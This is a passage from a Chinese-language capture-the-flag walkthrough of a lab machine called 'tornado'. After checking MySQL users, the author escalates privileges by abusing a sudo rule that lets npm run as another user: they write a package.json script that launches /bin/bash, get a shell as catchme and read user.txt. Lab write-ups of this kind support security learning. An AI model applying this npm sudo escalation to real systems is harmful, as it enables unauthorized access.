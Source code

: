![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换root用户失败，登录mysql看下admin@tornado用户什么情况

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

果然有多个一样的用户名，检查下哪里可以 提权

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到可以用catchme用户身份执行npm

npm提权
-----

需要准备两个文件，package.json和shell.sh

package.json文件内容，这个文件可以在攻击机上先写好，然后开启http服务，再用靶机将文件下载下来。也可以直接在靶机上创建，但是回显不太好。

```
`{` `"name": "shell",` `"version": "1.0.0",` `"description": "",` `"main": "index.js",` `"scripts": {` `"shell": "./shell.sh"``},` `"author": "",` `"license": "ISC"``}`
```

生成shell.sh

```
echo "/bin/bash" >shell.sh
```

为shell.sh加上可执行权限

```
chmod +x shell.sh
```

执行payload

```
sudo -u catchme npm run shell
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

提权成功，进入用户目录找到user.txt

```
`cd /home/catchme``ls -all``cat user.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

catchme目录下有个enc.py文件，查看一下内容

```
cat enc.py
```
